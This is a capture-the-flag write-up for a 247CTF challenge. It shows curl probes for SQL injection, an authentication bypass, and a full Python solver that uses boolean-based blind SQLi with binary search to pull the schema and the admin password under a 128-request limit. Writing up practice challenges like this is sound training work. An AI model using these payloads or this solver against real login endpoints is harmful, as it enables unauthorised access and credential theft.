

# THE FLAG API KEY [HARD]

## Description

> We created an API service which has a few endpoints. Can you use the API to figure out the admin user’s password? The admin user’s password uses the same character set and length as the flag (32-HEX).

## Source Code

No source code.
Instead, API Documentation is provided in this challenge.



## Short Solution Description / Tags

SQL Injection with limited attempts

## SQLi Detection

```console
$ curl -s https://4a86320794c65bcd.247ctf.com/api/get_token
{"message":"The API key has been reset to c036edc7a7fdf17d6053fdb7b89655d7!","result":"success"}

$ curl -s https://4a86320794c65bcd.247ctf.com/api/login -d "username=admin" -d "password=" -d "api=c036edc7a7fdf17d6053fdb7b89655d7"
{"message":"Invalid username and password!","result":"invalid"}

$ curl -s https://4a86320794c65bcd.247ctf.com/api/login -d "username=admin'" -d "password=" -d "api=c036edc7a7fdf17d6053fdb7b89655d7"
{"message":"SQLite error!","result":"error"}
```

By appending single quote to username, the message was changed from `Invalid username and password!` to `SQLite error!`.

```console
$ curl -s https://4a86320794c65bcd.247ctf.com/api/login -d "username=admin' OR true--" -d 'password=' -d 'api=c036edc7a7fdf17d6053fdb7b89655d7'
{"message":"Welcome back admin' OR true--!","result":"success"}
```

The login was successful with username is `admin' OR true--`.
However, the input username is directly output so we can only identify the success or failure of the SQL query.
Therefore, it seems impossible to use `UNION SELECT` payload to directly get records in a table.
Instead, Boolean-based SQLi is useful.

## SQLi with Binary Search

```console
$ curl -s https://4a86320794c65bcd.247ctf.com/api/get_token
{"message":"The API key has been reset to d144bdd53aae2e766d6d6dbefdb6f4a5!","result":"success"}

$ for i in $(seq 1 129); do echo $i; curl -s https://4a86320794c65bcd.247ctf.com/api/login -d "username=admin" -d 'password=' -d 'api=d144bdd53aae2e766d6d6dbefdb6f4a5'; done
1
{"message":"Invalid username and password!","result":"invalid"}
...
128
{"message":"Invalid username and password!","result":"invalid"}
129
{"message":"Sorry, your API key is only valid for 128 uses!","result":"error"}
```

The API token by /api/get_token is valid for 128 requests.
Upon the 129th request, the API token becomes invalid, leading to the reset of the admin password.
Therefore, by SQLi at the /api/login endpoint to leak the admin password, the number of requests should be 128 or fewer.

> The admin user’s password uses the same character set and length as the flag (32-HEX).

The challenge describes that the admin password only includes characters 0123456789abcdef and its length is 32.
By Binary search, it can be identified a single digit in 4 attempts.
Therefore, with a total of 4 * 32 = 128 requests, we can leak the password for admin.

based on [Binary search algorithm | Procedure for finding the leftmost element](https://en.wikipedia.org/wiki/Binary_search_algorithm#Procedure_for_finding_the_leftmost_element):

> ```text
> function binary_search_leftmost(A, n, T):
>     L := 0
>     R := n
>     while L < R:
>         m := floor((L + R) / 2)
>         if A[m] < T:
>             L := m + 1
>         else:
>             R := m
>     return L
> ```

For example, if a certain digit is 0xd, during Binary Search, it can be searched with only 4 requests as follows:

```text
Example: actual is 0xd

     0x0 0x1 0x2 0x3 0x4 0x5 0x6 0x7 0x8 0x9 0xa 0xb 0xc 0xd 0xe 0xf  m < 0xd
    ┌───┬───┬───┬───┬───┬───┬───┬───┬───┬───┬───┬───┬───┬───┬───┬───┐
1st │ l │   │   │   │   │   │   │ m │   │   │   │   │   │   │   │ r │ true    so l=m+1
    ├───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┤
2nd │   │   │   │   │   │   │   │   │ l │   │   │ m │   │   │   │ r │ true    so l=m+1
    ├───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┤
3rd │   │   │   │   │   │   │   │   │   │   │   │   │ l │ m │   │ r │ false   so r=m
    ├───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┼───┤
4th │   │   │   │   │   │   │   │   │   │   │   │   │ lm│ r │   │   │ true    so l=m+1
    └───┴───┴───┴───┴───┴───┴───┴───┴───┴───┴───┴───┴───┴───┴───┴───┘
                                                          lr
l < r is false so does not enter the 5th loop and return l (=0xd).
```

## Solution

solver.py

```python
import re
import requests

requests.packages.urllib3.disable_warnings()
s = requests.Session()
# s.proxies = {"https": "http://127.0.0.1:8080"}
s.verify = False

BASE_URL = "https://387a78abf72f135f.247ctf.com"

def get_token():
    res = s.get(f"{BASE_URL}/api/get_token")
    m = re.findall(
        r"The API key has been reset to ([0-9a-f]{32})!",
        res.json().get("message"),
    )

    if not m:
        print("not found m")
        return

    return m[0]


def sqli(payload, token=None):
    if not token:
        token = get_token()

    res = s.post(
        f"{BASE_URL}/api/login",
        data={"username": payload, "password": "", "api": token},
    )

    if res.json()["message"] in [
        "Sorry, your API key is only valid for 128 uses!",
        "SQLite error!",
    ]:
        raise Exception(f'Error: {res.json()["message"]}')

    return res.json()["result"] == "success"


def binary_search_leftmost(l, r, payload_with_m, token=None):
    while l < r:
        m = (l + r) // 2
        print(f"{m}    ", end="\r", flush=True)
        if sqli(payload_with_m.format(m=m), token=token):
            l = m + 1
        else:
            r = m

    # print()
    return l


def main():
    sqlite_version_length = 6
    # sqlite_version_length = binary_search_leftmost(
    #     0, 100, "admin' AND LENGTH(sqlite_version()) > {m}--"
    # )
    print(f"{sqlite_version_length=}")

    sqlite_version = "3.25.3"
    # for i in range(1, sqlite_version_length + 1):
    #     ret = binary_search_leftmost(
    #         ord(" "),
    #         ord("~"),
    #         f"admin' AND UNICODE(SUBSTR(sqlite_version(), {i}, 1)) > {{m}}--",
    #     )
    #     sqlite_version += chr(ret)
    #     print(sqlite_version, end="\r", flush=True)
    print(f"{sqlite_version=}")

    sql_length = 68
    # sql_length = binary_search_leftmost(
    #     0, 200, "admin' AND (SELECT LENGTH(sql) FROM sqlite_master) > {m}--"
    # )
    print(f"{sql_length=}")

    # sql = ""
    # for i in range(1, sql_length + 1):
    #     ret = binary_search_leftmost(
    #         ord(" "),
    #         ord("~"),
    #         f"admin' AND UNICODE(SUBSTR((SELECT sql FROM sqlite_master), {i}, 1)) > {{m}}--",
    #     )
    #     sql += chr(ret)
    #     print(sql, end="\r", flush=True)

    sql = "CREATE TABLE user (id int primary key, username text, password text)"
    print(f"{sql=}")

    record_length = 1
    # record_length = binary_search_leftmost(
    #     1,
    #     100,
    #     "admin' AND (SELECT COUNT(*) FROM user) = {{m}}--",
    # )
    print(f"{record_length=}")

    token = get_token()
    password = ""
    for i in range(1, 33):
        """
        IIF(UNICODE('<c>') >= 97, 97-10, 48):
        0: 0  (=48-48)
        1: 1  (=49-48)
        ...
        9: 9  (=57-48)
        a: 10 (=97-87)
        b: 11 (=98-87)
        ...
        f: 15 (=102-87)
        """
        ret = binary_search_leftmost(
            0,
            15,
            f"admin' AND UNICODE(SUBSTR((SELECT password FROM user WHERE username='admin'), {i}, 1)) - CASE WHEN UNICODE(SUBSTR((SELECT password FROM user WHERE username='admin'), {i}, 1)) >= 97 THEN 87 ELSE 48 END > {{m}}--",
            token,
        )

        password += f"{ret:x}"
        print(f"{password}    ")

    print(password)

    res = s.post(f"{BASE_URL}/api/get_flag", data={"password": password})
    print(res.text)


if __name__ == "__main__":
    main()
```

Result:

```console
$ python3 solver.py
sqlite_version_length=6
sqlite_version='3.25.3'
sql_length=68
sql='CREATE TABLE user (id int primary key, username text, password text)'
record_length=1
5
57
57c
57c6
57c6b
57c6be
57c6bed
57c6bed8
57c6bed8d
57c6bed8de
57c6bed8def
57c6bed8def0
57c6bed8def04
57c6bed8def042
57c6bed8def0422
57c6bed8def04222
57c6bed8def04222b
57c6bed8def04222b1
57c6bed8def04222b14
57c6bed8def04222b14b
57c6bed8def04222b14b3
57c6bed8def04222b14b3b
57c6bed8def04222b14b3b8
57c6bed8def04222b14b3b81
57c6bed8def04222b14b3b81d
57c6bed8def04222b14b3b81dc
57c6bed8def04222b14b3b81dcf
57c6bed8def04222b14b3b81dcf3
57c6bed8def04222b14b3b81dcf31
57c6bed8def04222b14b3b81dcf31a
57c6bed8def04222b14b3b81dcf31ac
57c6bed8def04222b14b3b81dcf31ac6
57c6bed8def04222b14b3b81dcf31ac6
{"message":"247CTF{[REDACTED]}","result":"success"}
```
